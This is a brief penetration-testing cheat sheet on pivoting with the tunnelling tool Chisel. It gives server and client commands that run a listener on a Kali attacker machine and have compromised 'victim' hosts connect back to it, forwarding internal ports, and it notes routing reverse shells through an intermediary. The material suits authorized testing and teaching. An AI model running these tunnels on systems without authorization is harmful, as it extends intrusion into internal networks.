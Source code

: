 Reverse Pivot
Chisel is like SSH tunneling but everything is reversed.

Victim tunnels to hacker.

Victim == client

Hacker == server

https://github.com/richardcurteis/Cheat-Sheets-and-Guides/blob/master/Reverse%20Pivot.png

Set up server to listen on port 8000. Be verbose
kali:~# chisel server -p 8000 -reverse -v

Tell client to connect to server and tell server where to listen
intermediary_victim:~# chisel client $kali_ip:8000 R:127.0.0.1:8001:$target_ip:$target_port

#! Look at fingerprint option to ensure client only connects to intended servers

Port Forward/Local Pivot
If we have a shell on a non-routable mnachine to our attacking machine, set up the port forward on a machine
that can connect to both and forward traffic through
Once set up send reverse shell etc to intermediary machine to be routed through to attacker.

Spin up server on kali
kali:~# chisel server -p 8000 -reverse -v

ink client to server and forward traffic on localhost from 9001 to address foo on port bar
chisel client $kali_ip:8000 intermediary_port:target_ip:target_port
intermediary_victim:~# chisel client $kali_ip:8000 9001:127.0.0.1:8001
